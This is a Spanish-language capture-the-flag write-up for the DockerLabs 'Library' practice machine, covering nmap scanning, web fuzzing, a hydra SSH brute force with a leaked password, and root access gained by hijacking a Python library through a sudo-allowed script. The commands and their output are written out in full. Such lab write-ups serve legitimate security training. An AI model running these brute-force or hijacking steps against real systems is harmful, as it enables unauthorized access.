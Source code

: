 ```yaml
---
title: Library
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-library/library_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - fuzzing_web
  - data_leaks
  - sudo_abuse
  - python_library_hijacking
  - information_gathering
  - web_analysis
  - data_leak_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/library:-$ ping -c 1 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.058 ms
--- 172.17.0.3 ping statistics ---

1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.058/0.058/0.058/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/library:-$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 172.17.0.3
Host: 172.17.0.3 ()     Status: Up
Host: 172.17.0.3 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/library:-$ nmap -sCV -vvv -p22,80 -oN nmap2 172.17.0.3
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9f6fcf7f84dd474514c882354a0b3af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOE+AMUTmmJFie8NgXoV0LWMWmHQU2yXAMVJnPC/JPzRYOstWvVS+YjLNy2mNK2a
KFi/ubqYfwGq5IkKZgXTUEA=
|   256 fd5b01b6d218aea36f26b23c00e512c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKaYjuffpq2p5LshURmRdGCPjM1gO/+OI5UZ4l37IkRF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 06:38:70:2B:1F:EA (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/library:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.3], Title[Apache2 Ubuntu Default Page: It works]
```

---
## Web Analysis

La página principal entrega únicamente la plantilla por defecto de Apache Ubuntu.

![](assets/img/dockerlabs-writeup-library/library1_1.png)

Ejecuto fuzzing sobre la raíz y detecto la presencia del archivo `index.php`.

```terminal
/home/kali/Documents/dockerlabs/library:-$ dirb http://172.17.0.3/
---- Scanning URL: http://172.17.0.3/ ----
+ http://172.17.0.3/index.html (CODE:200|SIZE:10671)
+ http://172.17.0.3/index.php (CODE:200|SIZE:26)
==> DIRECTORY: http://172.17.0.3/javascript/
+ http://172.17.0.3/server-status (CODE:403|SIZE:275)
```

Accedo al recurso y visualizo una cadena de texto.

![](assets/img/dockerlabs-writeup-library/library1_2.png)

---
## Data Leak Exploitation

Utilizo esa cadena como contraseña en un ataque de fuerza bruta.

```terminal
/home/kali/Documents/dockerlabs/library:-$ hydra -L /opt/seclists/Usernames/xato-net-10-million-usernames.txt -p 'JIFGHDS87GYDFIGD' ssh://172.17.0.3 -t 40 -I
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```

Consigo credenciales validas para acceder por SSH con el usuario `carlos`.

```terminal
/home/kali/Documents/dockerlabs/library:-$ ssh carlos@172.17.0.3
carlos@172.17.0.3's password: JIFGHDS87GYDFIGD

carlos@a63c3f434005:~$ id
uid=1001(carlos) gid=1001(carlos) groups=1001(carlos)
```

---
## Privilege Escalation

```terminal
carlos@a63c3f434005:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
carlos:x:1001:1001::/home/carlos:/bin/bash
```

Reviso los privilegios `sudo` asignados a `carlos` y descubro que puede ejecutar el script `/opt/script.py` como `root` sin necesidad de autenticación.

```terminal
carlos@a63c3f434005:~$ sudo -l
Matching Defaults entries for carlos on a63c3f434005:
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User carlos may run the following commands on a63c3f434005:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

El script contiene una función que importa el módulo `shutil` para realizar una copia de archivo. La operación ocurre sin validación externa, lo cual permite abusar de la importación de módulos de Python.

```terminal
carlos@a63c3f434005:~$ cat /opt/script.py
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

El script contiene una función que importa el módulo `shutil` para realizar una copia de archivo. La operación ocurre sin validación externa, lo cual permite abusar de la importación de módulos de Python.

```terminal
carlos@a63c3f434005:~$ echo -e 'import os\nos.system("/bin/bash")' > /opt/shutil.py
```

Al ejecutar el script con `sudo`, el intérprete carga el módulo malicioso y obtengo acceso como `root`.

```terminal
carlos@a63c3f434005:~$ sudo /usr/bin/python3 /opt/script.py

root@a63c3f434005:/home/carlos# id
uid=0(root) gid=0(root) groups=0(root)
```

